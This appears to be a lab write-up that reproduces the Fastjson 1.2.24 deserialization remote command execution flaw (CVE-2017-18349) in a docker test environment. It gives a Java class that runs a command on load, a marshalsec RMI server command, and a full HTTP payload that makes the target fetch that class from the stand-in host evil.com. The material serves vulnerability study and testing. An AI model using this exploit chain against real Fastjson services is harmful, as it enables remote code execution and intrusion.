

Fastjson 1.2.24 Deserialization Remote Command Execution (CVE-2017-18349)¶
Fastjson is a JSON parser developed by Alibaba. During the JSON parsing process, it supports using autoType to instantiate a specific class and call its set/get methods to access properties. By identifying relevant methods in the code, malicious exploitation chains can be constructed.
References:
- https://www.freebuf.com/vuls/208339.html
- http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/
Environment Setup¶
Execute the following command to start the test server that use Fastjson 1.2.24 as the default JSON parser:
docker compose up -d
After the server is started, visit http://your-ip:8090 to see a JSON format output.
You can update the server information by POSTing a JSON object to this address:
curl http://your-ip:8090/ -H "Content-Type: application/json" --data '{"name":"hello", "age":20}'
Vulnerability Reproduction¶
Since the target environment is Java 8u102, which doesn't have the com.sun.jndi.rmi.object.trustURLCodebase restriction, we can use the com.sun.rowset.JdbcRowSetImpl exploitation chain to execute commands through JNDI injection.
First, compile and upload the command execution code, such as http://evil.com/TouchFile.class:
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;
public class TouchFile {
static {
try {
Runtime rt = Runtime.getRuntime();
String[] commands = {"touch", "/tmp/success"};
Process pc = rt.exec(commands);
pc.waitFor();
} catch (Exception e) {
// do nothing
}
}
}
Then, using the marshalsec project, start an RMI server listening on port 9999 and specify loading the remote class TouchFile.class:
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 9999
Send the payload to the target server with the RMI address:
POST / HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 160
{
"b":{
"@type":"com.sun.rowset.JdbcRowSetImpl",
"dataSourceName":"rmi://evil.com:9999/TouchFile",
"autoCommit":true
}
}
As shown below, the command touch /tmp/success has been successfully executed:
